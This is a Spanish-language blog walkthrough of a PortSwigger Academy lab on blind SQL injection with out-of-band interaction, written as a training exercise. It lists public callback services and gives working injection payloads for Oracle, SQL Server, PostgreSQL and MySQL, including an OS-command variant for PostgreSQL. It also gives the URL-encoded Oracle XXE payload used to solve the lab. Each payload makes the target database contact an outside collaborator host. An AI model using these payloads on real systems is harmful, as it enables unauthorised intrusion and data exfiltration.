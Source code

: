 +++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 15"
date = "2021-11-11"
description = "Lab: Blind SQL injection with out-of-band interaction"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Blind SQL injection with out-of-band interaction

En este <cite>laboratorio[^1]</cite>la finalidad es poder inyectar una consulta sql y basandonos en la ejecucion que pueda realizar el backend una consulta hacia un endpoint y genere una accion, en este caso de esto se trata. Mas que todo donde los otros tipos de sql injection a ciegas no puede llegar.

## Reconocimiento

Burpsuite cuenta con una propia herramienta que es Burp Collaborator que lo que hace es apoyar a detectar vulnerabilidades a ciegas. Pero si no se cuenta con Burpsuite Pro no se puede utilizar, asi que se listan a continuacion algunas alternativas para poder explotar esta vulnerabilidad.

> En el laboratorio no se puede realizar alguna de estas alternativas ya que el firewall de PortswiggerAcademy bloquea


* http://dnslog.cn/
* https://webhook.site/
* https://app.interactsh.com/
* http://pingb.in/
* http://swin.es/
* http://ceye.io/
* https://canarytokens.org/
* https://requestbin.net/
* https://beeceptor.com/


###  Payloads

Los payloads a inyectar segun la base de datos son los siguientes:

Backend | Consulta
--------|-----------------
Oracle	| `SELECT extractvalue(xmltype('\<?xml version="1.0" encoding="UTF-8"?>\<!DOCTYPE root [ \<!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual` o `SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')` solo con privilegios elevados
Microsoft |	`exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'`
PostgreSQL |	`copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'`
MySQL	| `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')` solo trabaja en windows o `SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`

#### Explotar

Utilizando una de las consultas podemos inyectar una consulta y enviar la consulta, y ahora collaborate nos enviara las peticiones que se han realizado.

```sql
xxxxxxxxxxxxxxxx'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//gcwtmppkxyte3s4zwxzqbfkig9mba0.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

![Envio de consulta con repeater](repeater.png)

Y con esto hemos resulto el lab:

![Laboratorio resuelto](resuelto.png)

Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)